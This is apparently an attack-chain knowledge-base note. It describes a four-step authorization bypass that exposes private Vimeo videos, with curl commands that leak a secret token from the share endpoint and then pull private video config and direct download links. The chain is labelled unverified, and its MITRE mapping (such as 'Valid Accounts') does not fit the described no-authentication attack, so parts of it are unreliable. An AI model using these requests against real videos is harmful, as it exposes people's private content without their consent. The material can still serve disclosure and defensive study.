

# Vimeo Private Video Disclosure via Authorization Bypass in Share Endpoint

Multi-stage attack chain demonstrating a complete attack workflow to bypass authorization on Vimeo's private videos, leaking sensitive tokens and enabling full disclosure of video metadata and direct download links without authentication.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 4 |
| Execution Time | ~2 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/videoLeak-php]] (optional POC script)

### Target Environment

- Web platform
- Access to Vimeo's public endpoints
- No authentication required

### Initial Access Requirements

- Public internet access
- Knowledge of private video ID (e.g., from URL)
- Tools like curl or browser dev tools for requests

## Detailed Attack Procedures

### Step 1: Trigger Share Endpoint
procedure: [[procedures/Trigger-Share-Endpoint-to-Leak-Config-Token]]

**Objective**: Send an unauthorized AJAX request to the share endpoint for a private video to provoke an error response containing a leaked config URL with secret token.

**Instructions**: Use a tool like curl to simulate an AJAX request to https://vimeo.com/[VIDEO_ID]?action=share, setting the X-Requested-With header to XMLHttpRequest. Replace [VIDEO_ID] with the target private video's ID.

```bash
curl -X GET "https://vimeo.com/[VIDEO_ID]?action=share" -H "X-Requested-With: XMLHttpRequest" -v
```

**Expected Output**: HTTP 403 or error response body containing a config URL like https://player.vimeo.com/video/[VIDEO_ID]/config?...&s=[SECRET].

**Success Indicators**:
- Error response received with embedded config URL
- Secret token 's=[SECRET]' visible in response

### Step 2: Extract Token
procedure: [[procedures/Extract-Secret-Token-from-Error-Response]]

**Objective**: Parse the error response to isolate the secret token from the leaked config URL.

**Instructions**: Inspect the response body from Step 1 and manually or programmatically extract the 's=' parameter value from the config URL string.

**Expected Output**: Isolated secret token value, e.g., a long alphanumeric string.

**Success Indicators**:
- Token successfully parsed without errors
- Token format matches expected pattern (alphanumeric, ~40 characters)

### Step 3: Access Config
procedure: [[procedures/Access-Private-Video-Config-with-Leaked-Token]]

**Objective**: Use the leaked token to fetch the private video's config JSON, revealing metadata and file links.

**Instructions**: Construct a request to https://player.vimeo.com/video/[VIDEO_ID]/config with the secret token and standard parameters like autoplay=0&byline=0&bypass_privacy=1.

```bash
curl -X GET "https://player.vimeo.com/video/[VIDEO_ID]/config?autoplay=0&byline=0&bypass_privacy=1&context=Vimeo%5CController%5CClipController.main&default_to_hd=1&portrait=0&title=0&s=[SECRET]" -v
```

**Expected Output**: JSON response with video title, owner details, and array of file URLs (e.g., progressive download links).

**Success Indicators**:
- JSON parsed successfully without auth errors
- Video metadata (title, owner) visible
- Direct file links present in response

### Step 4: Disclose Video
procedure: [[procedures/Disclose-and-Playback-Private-Video-Using-Config-Data]]

**Objective**: Utilize the config data to embed, play, or download the private video without any login.

**Instructions**: Extract file URLs from the config JSON and access them directly in a browser or via download tools.

**Expected Output**: Video playback or file download succeeds.

**Success Indicators**:
- Video plays in embedded player
- File downloads without redirection or blocks

## Attack Chain Summary

### Key Achievements

1. Bypassed authorization on private video share endpoint
2. Leaked and extracted secret access token
3. Retrieved full video config including direct file links
4. Enabled unauthorized viewing and downloading of private content

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Valid Accounts]] Valid Accounts
- [[Exploit Public-Facing Application]] Exploit Public-Facing Application
- [[Data from Cloud Storage]] Data from Cloud Storage

### MITRE ATT&CK Tactics

- [[Initial Access]] Initial Access
- [[Collection]] Collection

---

*Last updated: 2023-10-01T00:00:00Z*
